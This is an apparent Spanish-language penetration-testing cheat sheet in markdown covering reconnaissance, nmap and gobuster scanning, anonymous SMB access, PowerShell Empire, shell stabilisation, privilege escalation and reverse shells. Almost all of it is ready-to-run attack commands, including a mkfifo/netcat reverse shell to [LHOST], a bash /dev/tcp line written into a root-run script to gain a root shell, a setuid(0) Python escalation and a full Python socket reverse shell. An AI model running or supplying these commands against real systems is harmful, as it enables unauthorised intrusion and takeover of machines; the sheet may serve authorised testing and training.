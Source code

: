### INFO-GATHER
whois [DOMINIO] > para la shell
www.who.is º > para consultar en la web.
host [DOMINO] > para ver direcciones IP
dnsrecon -d [WEB] > ver registros DNS

### SCAN TARGET
**Escaneo de puertos abiertos**
	nmap -p- --open -sS -n -Pn --min-rate 5000 [RHOST]
**Escaneo de servicios y scripts por defecto**
	nmap -p[PUERTOS] -sVC [RHOST]
### DESCRUBRIMIENTO DE HOSTS
**Ver otros equipos dentro de la misma red**
	sudo nmap -sn [IP & MASK] 
	sudo arp-scan -l
	sudo netdiscover -r [IP & MASK]

### SCAN WEB
**Escaneo de directorios**
	gobuster dir -u [RHOST]-w /usr/share/dirb/wordlists/[WORDLIST] --no-error -t 200
**Escaneo de subdominios**
	gobuster dns -d [DOMINIO] -w /usr/share/dnsrecon/[WORDLIST] -t 200 --no-error
	wfuzz -w /usr/share/dnsrecon/[WORDLIST] -u [DOMINIO] -H 'Host: FUZZ.[DOMINIO]' -t 50 --hc 302 

### SMB
smbexec.py 'username:password'@IP > se conecta al objetivo
smbclient -L [HOST] -N > listar shares sin pasar contraseña
smbclient -N //[HOST]/[SHARE] > nos conectamos al share sin pasar contraseña

### EMPIRE POWERSHELL
powershell-empire server > inicia el servidor de empire
powershell-empire client > inicia el cliente

### ESTABILIZAR SHELL
**Metodo 1**
	**Victima**
		rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh  -i 2>&1|nc [LHOST] \[LPORT] >/tmp/f
	**Atacante**
		nc -nvlp [LPORT]
**Metodo 2 (Python)**
	python3 -c 'import pty;pty.spawn("/bin/bash")'
	_Ctrl+Z_
	stty raw -echo; fg
	export TERM=xterm

### PRIVESC
**POSIBLE PRIVESC CON PYTHON**
	python3 -c 'import os; os.setuid(0);os.system("/bin/sh")'
**VERIFICAR BINARIOS Y SUDO**
	sudo -l
	find / -perm -u=s -type f 2>/dev/null
	find / -type -f -perm -04000 -ls 2>/dev/null
**SOBREESCRIBIR SCRIPT DE ROOT PARA GENERAR REVSHELL DE ROOT.** 
	echo '#!/bin/bash' > script
	echo 'sh -i >& /dev/tcp/**LHOST**/**LPORT** 0>&1' >> script
**VARIABLES DE ENTORNO**
	printenv
### AGREGAR PATH LINUX
PATH=/RUTA:$PATH

### REVERSE SHELL
**Script Python**
	import socket
	import os
	import subprocess
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("[LHOST]",[LPORT]))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	import pty
	pty.spawn("bash")